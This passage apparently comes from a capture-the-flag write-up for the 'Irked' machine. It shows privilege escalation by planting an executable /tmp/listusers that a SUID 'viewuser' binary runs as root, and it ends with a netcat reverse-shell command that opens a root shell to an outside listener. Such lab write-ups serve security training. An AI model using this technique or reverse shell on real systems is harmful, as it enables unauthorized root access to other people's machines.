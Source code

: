 Running the `viewuser` binary and it errored out D:

{% highlight bash %}
djmardov@irked:~$ viewuser
viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-09-26 16:15 (:0)
sh: 1: /tmp/listusers: not found
{% endhighlight %} 

Creating the file `/tmp/listusers` myself and re-running the binary.

{% highlight bash %}
djmardov@irked:~$ echo "test" > /tmp/listusers
echo "test" > /tmp/listusers
djmardov@irked:~$ viewuser
viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-09-26 16:15 (:0)
sh: 1: /tmp/listusers: Permission denied
{% endhighlight %} 

`Permission denied`, maybe `/tmp/listusers` file a executable.

{% highlight bash %}
djmardov@irked:~$ chmod +x /tmp/listusers
chmod +x /tmp/listusers
djmardov@irked:~$ viewuser
viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-09-26 16:15 (:0)
{% endhighlight %} 

Yes worked, let’s try command execution using those escalated priv.

{% highlight bash %}
djmardov@irked:~$ echo "id" > /tmp/listusers
echo "id" > /tmp/listusers
djmardov@irked:~$ viewuser
viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-09-26 16:15 (:0)
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
{% endhighlight %} 

Let’s use this SUID binary to get a shell with `uid=0`.

{% highlight bash %}
djmardov@irked:~$ echo "nc 10.10.14.8 9001 -e /bin/bash" > /tmp/listusers
echo "nc 10.10.14.8 9001 -e /bin/bash" > /tmp/listusers
djmardov@irked:~$ viewuser
viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-09-26 16:15 (:0)
{% endhighlight %} 
